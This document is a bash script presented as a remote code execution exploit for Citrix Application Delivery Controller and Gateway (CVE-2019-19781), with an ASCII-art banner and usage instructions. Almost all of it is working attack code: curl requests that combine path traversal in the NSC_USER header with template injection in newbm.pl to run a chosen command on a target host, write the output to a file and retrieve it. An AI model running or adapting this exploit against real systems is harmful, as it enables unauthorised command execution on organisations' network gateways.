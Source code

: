 ´´´
#!/bin/bash
# Remote Code Execution Exploit for Citrix Application Delivery Controller and Citrix Gateway - CVE-2019-19781
# Usage : bash CVE-2019-19781.sh IP_OF_VULNURABLE_HOST COMMAND_TO_EXECUTE e.g : bash CVE-2019-19781.sh XX.XX.XX.XX 'uname -a'
# Release Date : 11/01/2020
# Follow Us : https://twitter.com/ProjectZeroIN / https://github.com/projectzeroindia
echo "=================================================================================
 ___             _           _     ____                 ___           _  _
| _ \ _ _  ___  (_) ___  __ | |_  |_  / ___  _ _  ___  |_ _| _ _   __| |(_) __ _
|  _/| '_|/ _ \ | |/ -_)/ _||  _|  / / / -_)| '_|/ _ \  | | | ' \ / _' || |/ _' |
|_|  |_|  \___/_/ |\___|\__| \__| /___|\___||_|  \___/ |___||_||_|\__,_||_|\__,_|
              |__/                                                 CVE-2019-19781
================================================================================="
##############################
if [ -z "$1" ];
then
echo -ne 'Usage : bash CVE-2019-19781.sh IP_OF_VULNURABLE_HOST COMMAND_TO_EXECUTE\n'
exit;
fi
filenameid=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1);
curl -s -k "https://$1/vpn/../vpns/portal/scripts/newbm.pl" -d "url=http://example.com\&title=[%25+template.new({'BLOCK'%3d'exec(\'$2 | tee /netscaler/portal/templates/$filenameid.xml\')%3b'})+%25]\&desc=test\&UI_inuse=RfWeb" -H "NSC_USER: /../../../../../../../../../../netscaler/portal/templates/$filenameid" -H 'NSC_NONCE: test1337' -H 'Content-type: application/x-www-form-urlencoded' --path-as-is
echo -ne "\n" ;curl -m 3 -k "https://$1/vpn/../vpns/portal/$filenameid.xml" -s -H "NSC_NONCE: pwnpzi1337" -H "NSC_USER: pwnpzi1337" --path-as-is
echo -ne "Command Output :\n"
curl -m 3 -k "https://$1/vpn/../vpns/portal/$filenameid.xml" -H "NSC_NONCE: pwnpzi1337" -H "NSC_USER: pwnpzi1337" --path-as-is
´´´
